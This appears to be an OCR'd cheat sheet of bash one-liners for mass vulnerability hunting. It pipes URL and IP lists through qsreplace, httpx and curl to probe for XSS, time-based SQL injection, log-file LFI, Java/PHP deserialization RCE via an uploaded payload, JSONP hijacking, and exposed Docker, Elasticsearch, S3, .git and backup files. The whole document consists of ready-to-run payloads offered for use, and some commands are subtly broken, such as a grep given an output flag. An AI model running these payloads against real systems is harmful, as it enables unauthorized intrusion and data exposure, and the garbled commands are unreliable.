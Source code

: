 Insecure JSONP Endpoints (Callback Hijacking)
```bash
cat urls.txt | qsreplace 'callback=alert(document.domain)' | httpx -silent -fr 'alert(document.domain)' -o jsonp_vulns.txt
```

Exposed phpinfo() Files (Info Disclosure)
```bash
cat subdomains.txt | httpx -silent -path /phpinfo.php -mc 200 -o exposed_phpinfo.txt
```

RCE via Deserialization (Java/PHP Payloads)
```bash
cat upload_urls.txt | xargs -I{} curl -X POST -F 'file=@payload.ser' {} -s | grep 'java.lang.Runtime' -o rce_found.txt
```

LFI via Log Files
```bash
cat urls.txt | qsreplace '../../../../../../../../var/log/nginx/access.log' | httpx -silent -fr 'GET /' -o log_lfi.txt
```

Exposed Docker APIs (DevOps Misconfig)
```bash
cat ips.txt | xargs -I{} curl -s -X GET "http://{}:2375/images/json" | grep 'Id' -B 2 | tee exposed_docker.txt
```

Amazon S3 Buckets (Open Buckets)
```bash
cat subdomains.txt | sed 's/$/.s3.amazonaws.com/' | httpx -silent -mc 200 -o open_s3_buckets.txt
```

Open Elasticsearch (DevOps Exposure)
```bash
cat ips.txt | xargs -I{} curl -s "http://{}:9200/_cat/indices?v" | grep -v 'master' | tee open_elasticsearch.txt
```

Backup Files in Web Root
```bash
cat urls.txt | sed 's/$/.bak/' | httpx -silent -mc 200 -o found_backups.txt
```

XSS in reflected parameters (quick check)
```bash
cat urls.txt | qsreplace '<script>alert(1)</script>' | httpx -silent -fr '<script>alert(1)</script>' -o xss_reflected.txt
```

SQL Injection (time-based detection)
```bash
cat urls.txt | qsreplace "' AND SLEEP(5)--" | httpx -silent -rt -o sqli_time_based.txt
```

Detect exposed Git repositories (.git folder)
```bash
cat subdomains.txt | httpx -silent -path /.git/HEAD -mc 200 -o exposed_git_repos.txt
```
